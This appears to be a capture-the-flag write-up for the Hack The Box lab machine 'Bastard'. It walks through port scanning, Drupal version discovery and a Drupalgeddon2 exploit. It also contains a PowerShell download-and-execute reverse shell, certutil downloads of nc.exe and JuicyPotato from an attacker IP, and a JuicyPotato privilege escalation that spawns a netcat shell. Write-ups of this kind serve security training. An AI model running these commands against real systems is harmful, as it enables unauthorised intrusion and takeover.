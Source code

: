 ## Bastard

Difficulty: Medium

### User Flag

```
rustscan -a 10.10.10.9 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/8d73ba33-dea5-4808-9861-b0893730d9b6)

<br>

Accessing port 80, we found ourselves with a Drupal site.

![drupalWebSite](https://github.com/b1d0ws/OSCP/assets/58514930/e35ebcb6-32be-4639-a14b-961a9334a8b6)

<br>

Discover it's version with the command below.

```
curl -s http://10.10.10.9/CHANGELOG.txt | grep -m2 ""
```

![drupalVersion](https://github.com/b1d0ws/OSCP/assets/58514930/1380d249-9738-4f14-b623-50a88a1c864e)

<br>

We can use [Drupalgeddon](https://github.com/dreadlocked/Drupalgeddon2) to get a webshell and give us a reverse with powershell and Invoke-PowerShellTcp.ps1.

```
ruby drupalgeddon2.rb http://10.10.10.9

powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/Invoke-PowerShellTcp.ps1')
```

![betterShell](https://github.com/b1d0ws/OSCP/assets/58514930/e284d3d1-404f-408d-92cf-c4727a0afb79)

<br>

### Root Flag

Enumerating privileges, our user has SeImpersonatePrivilege. 

```
whoami /priv
```

![whoamiPriv](https://github.com/b1d0ws/OSCP/assets/58514930/73f5d317-8e79-45cf-bc1d-fded6c3aa9cb)

<br>

We can abuse this with [JuicyPotato](https://juggernaut-sec.com/seimpersonateprivilege/).

```
# Checking OS Architecture
$Env:PROCESSOR_ARCHITECTURE

# Downloading binaries
cp /usr/share/windows-resources/binaries/nc.exe .
certutil -urlcache -f http://10.10.14.21/nc.exe nc.exe

certutil -urlcache -f http://10.10.14.21/JuicyPotatox86.exe JuicyPotatox86.exe

# Enumerating OS to get the right CLSID
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
https://ohpe.it/juicy-potato/CLSID/

.\JuicyPotatox86.exe -l 443 -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}" -p c:\windows\system32\cmd.exe -a "/c C:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.14.21 3333" -t *
```

![gettingRoot](https://github.com/b1d0ws/OSCP/assets/58514930/b9cff30a-d6ad-4ca0-a776-cef1ac08c55a)
